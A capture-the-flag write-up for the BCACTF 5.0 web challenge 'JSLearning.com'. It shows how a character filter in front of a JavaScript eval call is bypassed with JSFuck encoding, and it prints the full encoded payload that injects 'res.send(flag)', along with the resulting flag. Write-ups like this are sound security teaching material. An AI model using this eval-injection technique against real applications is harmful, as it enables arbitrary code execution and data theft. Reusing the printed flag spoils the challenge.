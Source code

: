# BCACTF 5.0

## JSLearning.com

> Hey, can you help me on this Javascript problem? Making strings is hard.
> 
> Author: Jacob Korn
> 
> [`server.py`](server.py)

Tags: _web__

## Solution
We get a web application that gives the impression to be some sort of gamified javascript learning platform. The challenge is:

> Level 43: writing strings
> 
> Can you write a string that says "fun"? (no need to declare a variable, just write the string)

If we enter `fun` we get an error: `ERROR: disallowed characters. Valid characters: '[', ']', '(', ')', '+', and '!'.`. Ok, lets check the source code.

```js
for (let i of ["[", "]", "(", ")", "+", "!"]) {
    d = d.replaceAll(i, "");
}
if (d.trim().length) {
    res.send("ERROR: disallowed characters. Valid characters: '[', ']', '(', ')', '+', and '!'.");
    return;
}

let c;
try {
    c = eval(req.body).toString();
} catch (e) {
    res.send("An error occurred with your code.");
    return
}

// disallow code execution
try {
    if (typeof (eval(c)) === "function") {
        res.send("Attempting to abuse javascript code against jslearning.site is not allowed under our terms and conditions.");
        return
    }
} catch (e) {}
```

Input is filtered, so only `[, ], (, ), + and !` are possible. Then the input is passed to `eval`. The characters look strongly like [`jsfuck`](https://jsfuck.com/) could help here. The site states:

> JSFuck is an esoteric and educational programming style based on the atomic parts of JavaScript. It uses only six different characters to write and execute code.

Ok, lets try this. We encode `fun` and get 

```js
(![]+[])[+[]]+([][[]]+[])[+[]]+([][[]]+[])[+!+[]]
```

Passing this to the application gives us: `Congratulations! You win the level!`. But yeah, we already saw in the source code, there are no other "levels". We rather have to inject some code that gives us the flag. If we check the source code again we see the flag is loaded to a global variable. And since we call eval not in strict mode we have access to this variable.

```js
const flag = Deno.readTextFileSync('flag.txt')
```

So we have all sorts of choices here, one would be to use `res.send` and send just another message to the client, with the flag. So lets jsfuckify `res.send(flag)` and pass this to the application.

```js
(!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+([][[]]+[])[+!+[]]+([][[]]+[])[!+[]+!+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(![]+[+[]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]]
```

Flag `bcactf{1ava5cRIPT_mAk35_S3Nse_48129846}`